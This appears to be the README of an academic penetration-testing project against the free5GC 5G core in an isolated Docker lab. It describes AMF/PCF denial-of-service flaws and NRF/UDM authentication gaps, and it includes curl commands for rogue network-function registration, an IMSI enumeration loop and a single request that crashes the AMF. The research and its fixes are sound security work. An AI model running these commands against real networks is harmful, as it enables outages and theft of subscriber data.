








# 🔐 5G Core Network Security Assessment
### Availability Attacks & SBA Vulnerabilities on free5GC v4.2.1

> **Academic Security Research** — ESI SBA · ISI · 2025/2026  
> Supervised by Mr. Fayssal Bendaoud

---

## 📋 Overview

A hands-on penetration testing project targeting **free5GC**, the leading open-source 5G Core implementation. The assessment covers two distinct attack surfaces:

1. **Availability Attacks** — Nil pointer dereferences and memory exhaustion in AMF/PCF, causing complete network outages from a single unauthenticated HTTP request.
2. **SBA Authentication Flaws** — Missing OAuth2 enforcement and IDOR vulnerabilities in NRF/UDM enabling rogue NF injection, topology mapping, and full subscriber database exfiltration.

Three critical CVEs were identified and documented. All testing was conducted in an **isolated Docker Compose lab** with no connection to production networks.

---

## ⚙️ Technical Stack

| Category | Tools / Technologies |
|---|---|
| **Target Platform** | free5GC v4.2.1 (Go) |
| **Container Runtime** | Docker · Docker Compose |
| **Attack Scripting** | Bash · cURL · Python 3 |
| **Protocols** | HTTP/2 REST (SBI) · NGAP · SCTP · NAS |
| **Database** | MongoDB (unauthenticated) |
| **Monitoring** | Grafana · docker stats |
| **Standards** | 3GPP TS 23.501 · TS 29.510 · TS 33.501 · TS 29.503 |
| **OS** | Linux (Arch / Ubuntu) |

---

## 🖥️ Lab Environment

The lab runs all 5G Core Network Functions as Docker containers in an isolated network. The custom **5GC Security Tester** dashboard (built for this project) provides live topology visualization, an attack panel with 21 attack vectors, and real-time NF status monitoring.


*Network Functions Overview — 10 NFs active, each with container name, IP, and protocol tags*


*Live topology map showing protocol edges (SCTP, HTTP/2, PFCP, GTP-U) between NFs*

---

## 🚨 Vulnerabilities Discovered

### CVE-class Findings

| ID | Component | Type | Severity |
|---|---|---|---|
| CVE-2026-4531 | AMF | Nil pointer dereference → crash | 🔴 CRITICAL |
| CVE-2026-30653 | AMF | Missing IE guard → crash | 🔴 CRITICAL |
| CVE-2026-41135 | PCF | Per-request CORS middleware → memory exhaustion | 🟡 MEDIUM |

### SBA Architecture Findings

| ID | Component | Description | Severity |
|---|---|---|---|
| F1 | NRF | No authentication on NF registration (CWE-306) | 🔴 CRITICAL |
| F2 | NRF | Full NF topology disclosed without credentials | 🟠 HIGH |
| F3 | NRF | Asymmetric OAuth2 — writes unprotected, reads blocked | 🔴 CRITICAL |
| F4 | UDM | Subscriber AM profiles returned with zero auth | 🔴 CRITICAL |
| F5 | UDM | Sequential IMSI enumeration via 200/404 oracle (CWE-639 IDOR) | 🔴 CRITICAL |
| F6 | UDM | OAuth2 config inherited from NRF, no independent enforcement | 🟠 HIGH |
| F7 | MongoDB | No authentication — full database compromise | 🔴 CRITICAL |
| F8 | Grafana | Default `admin:admin` credentials — persistent backdoor possible | 🟠 HIGH |

---

## 🗂️ Repository Structure

```
.
├── attack-scripts/
│   ├── 5g_audit.sh           # SBA audit: NRF injection, NF discovery, IMSI enum (Phases 1–3)
│   ├── dos_attack_menu.sh    # Interactive DoS menu for AMF/PCF CVEs
│   └── keys/                 # ⚠️ NOT committed — place your lab certs here (gitignored)
│       ├── amf.key
│       └── amf.pem
├── screenshots/              # Attack execution evidence
├── vulnerabilities/          # Vulnerability-specific proof screenshots
└── README.md
```

> 🔒 **Security Note:** Certificate files (`*.key`, `*.pem`) are gitignored. Never commit private keys.

---

## 🔬 Attack Chain — 4 Phases

### Phase 1 — Rogue NF Injection (NRF)

The NRF's `PUT /nnrf-nfm/v1/nf-instances/{id}` endpoint accepts registrations **without OAuth2 Bearer tokens or mTLS client certificates**. The audit script registers a fake AMF with a rogue IP, which is then persisted to MongoDB and returned in NF discovery queries.

```bash
curl -X PUT "http://10.100.200.4:8000/nnrf-nfm/v1/nf-instances/a1b2c3d4-0001-0001-0001-aabbccddeeff" \
  --cert ./cert/amf.pem --key ./cert/amf.key \
  -H "Content-Type: application/json" -d @payload
# → HTTP 200 / 201 — rogue AMF registered
```


*Rogue AMF successfully registered into the NRF with `HTTP_STATUS: 200` — no OAuth2 enforcement on writes*

---

### Phase 2 — OAuth2 Token & Topology Mapping

Even when OAuth2 is enabled, the **rogue NF** can obtain a valid Bearer token by presenting a lab client certificate — demonstrating that mTLS alone does not prevent impersonation when NF registration is unauthenticated.


*Rogue AMF obtains a valid `nudm-sdm` scoped Bearer token from the OAuth2 endpoint using mTLS certs*

---

### Phase 3 — Subscriber Data Exfiltration (UDM IDOR)

The UDM's Nudm_SDM API returns full **Access and Mobility profile data** for any SUPI with no NF identity proof. A sequential IMSI scan exploits a 200/404 oracle to enumerate all active subscribers. Each found IMSI yields QoS limits, network slice selections (NSSAI), and subscriber identifiers.

```bash
for i in $(seq 1 20); do
  SUPI=$(printf "imsi-20893%010d" "$i")
  STATUS=$(curl -s -o /dev/null -w "%{http_code}" \
    "http://10.100.200.11:8000/nudm-sdm/v2/${SUPI}/am-data?plmn-id=...")
  [ "$STATUS" = "200" ] && echo "FOUND: $SUPI"
done
```


*Full AM profile returned with zero credentials: QoS (1 Gbps uplink / 2 Gbps downlink), NSSAI slices, GPSIs*

---

### Phase 4 — AMF Crash (CVE-2026-4531)

`CVE-2026-4531`: The AMF dereferences `ue.RegistrationRequest` without a nil guard in `gmm/handler.go:2274`. One HTTP GET triggers a Go runtime panic — the container exits immediately and **all new device registrations halt network-wide**.

```bash
curl http://10.100.200.16:8000/vulnerable/registration-complete
# → HTTP Response: 000 (no response — AMF crashed)
```


*`AMF STATUS: CRASHED` — `NO UE CAN REGISTER` — `Network: COMPLETELY UNAVAILABLE` from a single unauthenticated request*

---

### PCF Memory Exhaustion (CVE-2026-41135)

The PCF registers a new CORS middleware instance on **every HTTP request** instead of once at startup. 500 requests causes linear memory growth, degrading policy decisions for all UEs.


*500/500 requests sent — 0 failures — each adds a middleware instance to the Gin router chain*

---

## 🧩 Attack Panel

The custom security dashboard includes 21 executable attack vectors covering the full 5G threat matrix — from NRF injection and IMSI enumeration to PFCP exploitation and SCTP-based signaling attacks.


*21 attack vectors across NRF, AMF, SMF, UDM — each with expected HTTP response, severity rating, and one-click execution*

---

## 🧠 CV Summary (3 Bullets)

- **5G SBA Protocol Security** — Conducted a structured penetration test of free5GC v4.2.1 targeting HTTP/2 RESTful SBI interfaces; identified 3 CVE-class vulnerabilities (nil pointer dereference, memory exhaustion, asymmetric OAuth2 enforcement) and 8 SBA authentication/authorization flaws including IDOR-based subscriber enumeration (CWE-639).
- **Network Function Attack Simulation** — Developed Bash-based tooling to automate rogue NF injection into the NRF registry, full topology mapping via unauthenticated discovery APIs, and sequential IMSI scanning against the UDM — demonstrating complete subscriber database exfiltration with zero credentials.
- **Containerized Security Lab Design** — Architected and deployed an isolated free5GC lab environment using Docker Compose, applied targeted source-code modifications to expose NGAP/SCTP vulnerability paths via HTTP for reproducible demonstration, and produced a structured security report following CVSS severity classification.

---

## 📐 Project Complexity

| Metric | Detail |
|---|---|
| **Attack surface** | 3 NFs (AMF, PCF, NRF/UDM) + MongoDB + Grafana |
| **CVEs documented** | 3 original CVEs + 8 architectural findings |
| **Attack vectors** | 21 in the security testing dashboard |
| **Automation** | ~300 lines of Bash; auto-detects container IPs via `docker inspect` |
| **Protocol depth** | HTTP/2 REST (SBI), NAS over NGAP/SCTP, MongoDB wire protocol |
| **Standards covered** | 4 × 3GPP Technical Specifications |
| **Attack chain length** | 4-phase chain: inject → token → exfiltrate → crash |

---

## 🚀 Setup (Arch Linux)

```bash
# Prerequisites
sudo pacman -S docker docker-compose curl python

# Clone and start free5GC
git clone https://github.com/free5gc/free5gc-compose
cd free5gc-compose
docker compose up -d

# Wait for NFs to register (~30s), then run the SBA audit
cd ../project-cys-nessal-lakhdari-bouchemlla/attack-scripts
sudo bash 5g_audit.sh

# Or run the interactive DoS menu
sudo bash dos_attack_menu.sh

# Optional: place your lab certs for mTLS probing
mkdir -p keys
cp /path/to/amf.key keys/
cp /path/to/amf.pem keys/
```

> The script auto-detects NRF and UDM IPs via `docker inspect`. If detection fails, it falls back to `10.100.200.4` and `10.100.200.11`.

---

## 🔧 Security Recommendations

1. **Enforce OAuth2 on NF writes** — NRF must validate Bearer tokens on `PUT /nf-instances/{id}`, not just GET endpoints.
2. **Add nil guards in AMF** — `ue.RegistrationRequest` must be checked before dereference in `gmm/handler.go`.
3. **Move CORS middleware to `init()`** in PCF — registering per-request causes unbounded memory growth.
4. **Enable MongoDB authentication** and isolate it from the SBI network plane.
5. **Implement mTLS on all SBI interfaces** per 3GPP TS 33.501 §13.3.
6. **UDM must enforce NF identity independently** — OAuth2 config must not be inherited passively from NRF.

---

## 👥 Authors

| Name | Role |
|---|---|
| Nessal Zakaria Rachid | SBA vulnerability research & audit scripting |
| Lakhdari Anis | AMF/PCF DoS analysis & CVE documentation |
| Bouchemlla Mohammed | Lab environment & attack chain design |

**Supervisor:** Mr. Fayssal Bendaoud — ESI SBA, Sidi Bel-Abbès

---

## ⚠️ Disclaimer

> This research was conducted exclusively in an **isolated lab environment** (Docker Compose, no external connectivity) for academic purposes under faculty supervision. All findings are disclosed responsibly. Do not use these techniques against any network you do not own or have explicit written permission to test.

---

## 📚 References

- 3GPP TS 23.501 — System architecture for the 5G System
- 3GPP TS 29.510 — Network Repository Function (NRF) API
- 3GPP TS 33.501 — Security architecture for 5G System
- 3GPP TS 29.503 — Unified Data Management (UDM) API
- [free5GC Project](https://github.com/free5gc/free5gc)
